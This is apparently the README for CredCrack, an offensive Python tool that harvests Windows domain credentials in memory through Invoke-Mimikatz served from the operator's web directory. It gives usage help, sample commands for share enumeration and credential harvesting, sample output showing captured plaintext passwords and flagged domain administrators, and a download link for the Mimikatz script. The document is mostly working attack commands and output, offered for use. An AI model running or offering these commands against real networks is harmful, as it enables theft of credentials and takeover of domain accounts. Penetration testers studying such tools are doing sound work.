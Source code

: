 # CredCrack

## Introduction
-----

CredCrack is a fast and stealthy credential harvester. It exfiltrates credentials recusively in memory and in the clear. Upon completion, CredCrack will parse and output the credentials while identifying any domain administrators obtained. CredCrack also comes with the ability to list and enumerate share access and yes, it is threaded!

CredCrack has been tested and runs with the tools found natively in Kali Linux. CredCrack solely relies on having PowerSploit's "Invoke-Mimikatz.ps1" under the /var/www directory. [Download Invoke-Mimikatz Here](https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)

## Help
-----
```
usage: credcrack.py [-h] -d DOMAIN -u USER [-f FILE] [-r RHOST] [-es]
                    [-l LHOST] [-t THREADS]

CredCrack - A stealthy credential harvester by Jonathan Broche (@g0jhonny)

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  File containing IPs to harvest creds from. One IP per
                        line.
  -r RHOST, --rhost RHOST
                        Remote host IP to harvest creds from.
  -es, --enumshares     Examine share access on the remote IP(s)
  -l LHOST, --lhost LHOST
                        Local host IP to launch scans from.
  -t THREADS, --threads THREADS
                        Number of threads (default: 10)

Required:
  -d DOMAIN, --domain DOMAIN
                        Domain or Workstation
  -u USER, --user USER  Domain username

Examples: 

./credcrack.py -d acme -u bob -f hosts -es
./credcrack.py -d acme -u bob -f hosts -l 192.168.1.102 -t 20
```

## Examples
-----

### Enumerating Share Access

```
./credcrack.py -r 192.168.1.100 -d acme -u bob --es
Password:
 ---------------------------------------------------------------------
  CredCrack v1.1 by Jonathan Broche (@g0jhonny)
 ---------------------------------------------------------------------
 
[*] Validating 192.168.1.102
[*] Validating 192.168.1.103
[*] Validating 192.168.1.100

 -----------------------------------------------------------------
 192.168.1.102 - Windows 7 Professional 7601 Service Pack 1 
 -----------------------------------------------------------------
 
 OPEN      \\192.168.1.102\ADMIN$ 
 OPEN      \\192.168.1.102\C$ 

 -----------------------------------------------------------------
 192.168.1.103 - Windows Vista (TM) Ultimate 6002 Service Pack 2 
 -----------------------------------------------------------------
 
 OPEN      \\192.168.1.103\ADMIN$ 
 OPEN      \\192.168.1.103\C$ 
 CLOSED    \\192.168.1.103\F$ 

 -----------------------------------------------------------------
 192.168.1.100 - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
 -----------------------------------------------------------------
 
 CLOSED    \\192.168.1.100\ADMIN$ 
 CLOSED    \\192.168.1.100\C$ 
 OPEN      \\192.168.1.100\NETLOGON 
 OPEN      \\192.168.1.100\SYSVOL 

[*] Done! Completed in 0.8s
```

### Harvesting credentials
-----

```
./credcrack.py -f hosts -d acme -u bob -l 192.168.1.100
Password:

 ---------------------------------------------------------------------
  CredCrack v1.1 by Jonathan Broche (@g0jhonny)
 ---------------------------------------------------------------------
 
[*] Setting up the stage
[*] Validating 192.168.1.102
[*] Validating 192.168.1.103
[*] Querying domain admin group from 192.168.1.102
[*] Harvesting credentials from 192.168.1.102
[*] Harvesting credentials from 192.168.1.103

                  The loot has arrived...
                         __________
                        /\____;;___\    
                       | /         /    
                       `. ())oo() .      
                        |\(%()*^^()^\       
                       %| |-%-------|       
                      % \ | %  ))   |       
                      %  \|%________|       

                
[*] Host: 192.168.1.102 Domain: ACME User: jsmith Password: Good0ljm1th
[*] Host: 192.168.1.103 Domain: ACME User: daguy Password: P@ssw0rd1!

     1 domain administrators found and highlighted in yellow above!

[*] Cleaning up
[*] Done! Loot may be found under /root/CCloot folder
[*] Completed in 11.3s
```

#### Contact
Contact me at [@g0jhonny](https://twitter.com/g0jhonny) with any questions or features you'd like to see in the next update. For bugs submit an [issue](https://github.com/gojhonny/CredCrack/issues/new)!

#### Credits
CredCrack couldn't have been possible without the contributions of the following individuals. You're all rockstars!
[@JosephBialek](https://twitter.com/JosephBialek), [@brav0hax](https://twitter.com/brav0hax), [@altonjx](https://twitter.com/altonjx) and everyone else! Thank you for all your contributions and feedback to make this a better script, keep 'em coming! 
